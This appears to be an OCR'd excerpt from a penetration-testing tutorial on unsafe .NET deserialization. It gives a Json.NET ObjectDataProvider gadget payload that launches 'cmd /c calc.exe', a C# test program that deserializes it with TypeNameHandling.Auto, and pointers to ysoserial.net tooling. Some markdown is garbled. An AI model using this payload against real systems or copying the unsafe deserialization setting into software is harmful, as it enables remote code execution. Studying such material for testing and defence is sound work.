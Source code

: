 ```
    'MethodName':'Start',
    'MethodParameters':{
        '$type':'System.Collections.ArrayList, mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089',
        '$values':['cmd', '/c calc.exe']
    },
    'ObjectInstance':{'$type':'System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089'}
}
```
```
In this code you can **test the exploit**, just run it and you will see that a calc is executed:

```java
using System;
using System.Text;
using Newtonsoft.Json;

namespace DeserializationTests
{
    class Program
    {
        static void Main(string[] args)
        {
            //Declare exploit
            string userdata = @"{
                '$type':'System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35',
                'MethodName':'Start',
                'MethodParameters':{
                            '$type':'System.Collections.ArrayList, mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089',
                    '$values':['cmd', '/c calc.exe']
                },
                'ObjectInstance':{'$type':'System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089'}
            }";
            //Exploit to base64
            string userdata_b64 = Convert.ToBase64String(System.Text.Encoding.UTF8.GetBytes(userdata));

            //Get data from base64
            byte[] userdata_nob64 = Convert.FromBase64String(userdata_b64);
            //Deserialize data
            string userdata_decoded = Encoding.UTF8.GetString(userdata_nob64);
            object obj = JsonConvert.DeserializeObject<object>(userdata_decoded, new JsonSerializerSettings
            {
                TypeNameHandling = TypeNameHandling.Auto
            });
        }
    }
}
```
```
## Advanced .NET Gadget Chains (YSoNet & ysoserial.net)

The ObjectDataProvider + ExpandedWrapper technique introduced above is only one of MANY gadget chains that can be abused when an application performs **unsafe .NET deserialization**.  Modern red-team tooling such as **[[https://github.com/irsdl/ysonet)** (and the older [ysoserial.net](https://github.com/pwntester/ysoserial.net)|YSoNet]] automate the creation of **ready-to-use malicious object graphs** for dozens of gadgets and serialization formats.

```